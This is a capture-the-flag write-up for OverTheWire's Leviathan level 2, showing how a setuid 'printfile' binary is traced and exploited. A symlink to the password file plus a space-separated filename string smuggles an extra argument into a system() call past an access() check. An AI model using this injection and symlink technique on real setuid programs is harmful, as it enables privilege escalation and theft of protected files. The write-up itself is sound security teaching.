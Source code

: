 # Leviathan2 -> 3

Challenge: `leviathan2@leviathan.labs.overthewire.org -p 2223`

## Level Description

Find the password for the next level. A file called `printfile` is present and has the setuid bit set, owned by `leviathan3`.

## The Process

First, I used the `ll -a` command to check the contents of the home directory. 
```bash
leviathan2@gibson:~$ ll -a
total 36
drwxr-xr-x  2 root       root        4096 Apr 10 14:23 ./
drwxr-xr-x 83 root       root        4096 Apr 10 14:24 ../
-rw-r--r--  1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--  1 root       root        3771 Mar 31  2024 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15072 Apr 10 14:23 printfile*
-rw-r--r--  1 root       root         807 Mar 31  2024 .profile
```
One file caught my attention: `printfile` — The SetUID bit is set. It runs as `leviathan3`.

So I went ahead and checked its file type.
```bash
leviathan2@gibson:~$ file printfile
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=79cfa8b87bb611f9cf6d6865010709e2ba5c8e3f, for GNU/Linux 3.2.0, not stripped
```

It's setuid executable binary and not stripped, so I ran it without any arguments to see how it works
```bash
leviathan2@gibson:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

I tried reading the target file directly, but it got blocked by a permission check.
```bash
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
Well, no luck there.

Because it's not stripped, I'm using `strings` to check if there any useful information
```bash
leviathan2@gibson:~$ file printfile
...
system
...
access
...
/bin/cat %s
...
```
That gave me a clue: 
- Uses `access()` to check file readability
- Then calls `system("/bin/cat [filename]")` to print it.

let's confirming with `ltrace`.
Firstly, create an environment:
```bash
leviathan2@gibson:~$ mkdir /tmp/try
leviathan2@gibson:~$ echo "trying to get in..." >> /tmp/try/try.txt
```
Then trace the binary:
```bash
leviathan2@gibson:~$ ltrace ./printfile /tmp/try/try.txt
__libc_start_main(0x80490ed, 2, 0xffffd464, 0 <unfinished ...>
access("/tmp/try/try.txt", 4)                = 0
snprintf("/bin/cat /tmp/try/try.txt", 511, "/bin/cat %s", "/tmp/try/try.txt") = 25
geteuid()                                    = 12002
geteuid()                                    = 12002
setreuid(12002, 12002)                       = 0
system("/bin/cat /tmp/try/try.txt"trying to get in...
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                       = 0
+++ exited (status 0) +++
```
The program first uses the `access()` function to check if a file can be read, using the `R_OK` flag, (R_OK = 4). If this check passes, it proceeds to run the cat command through the `system()` function. At first, this seems fine, but there’s a serious security flaw. The `access()` function checks permissions using the real user ID, which in this case is `leviathan2`. However, because the program (`printfile`) has the SUID bit set, the `system()` call runs with the effective user ID of `leviathan3`. This mismatch creates a vulnerability. Even worse, the input is passed directly into `system()` without any sanitization, which opens the door for command injection attacks.

I know that might sound tricky, but here’s the vulnerability.

I've already know that I can't read the password file directly, because `access()` block it — I don;t have permission as `leviathan2`.

Hmm...

What if I fool `access()` by giving it a **single string**, but trick `system()` into treating as **multiple arguments** ? 

Now let's prepare the payload with making two different files:
```bash
leviathan2@gibson:~$ cd /tmp/try
leviathan2@gibson:/tmp/try$ echo "trying to get in..." > try.txt
leviathan2@gibson:/tmp/try$ ln -s /etc/leviathan_pass/leviathan3 pw.txt
```
Now I have `try.txt` a readable file and `pw.txt` a symlink to the password.

Run the binary from inside `/tmp/try` directory:
```bash
leviathan2@gibson:/tmp/try$ ~/printfile "try.txt pw.txt"
trying to get in...
[REDACTED]
```
Voila! 

## Conclusion
The vulnerability in the `printfile` binary arises from **classic TOCTOU (Time of Check to Time of Use) flaw combined with unsafe use of the `system()`** function:
- **`access()`** checks file readabiity **as the real user (leviathan2)**, but only checks the entire input string as *a single filename* (e.g., `"try.txt pw.txt"`), which doesn't exist.
- **`sysmtem()`** executes `/bin/cat try.txt pw.txt` **as the effective user (leviathan3)**, which splits the string by spaces and reads both files — including a symlink to the restricted password file.
- There's **no input validation**, and **no error handling** after `access()` fails. This allows attacker to **inject additional filenames**, bypassing the intended restriction.  

In Short:
- The binary executes cat with elevated (`leviathan3`) privileges
- It performs a weak file access check using the full string as one filename
- We exploited this flaw by injecting multiple filenames in a single string — bypassing the check but still getting both files read

This demonstrates how poor input validation and broken security logic can lead to privilege escalation, letting us read leviathan3’s password through its own vulnerable SUID binary.

## Helpful Reading Material
- [Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
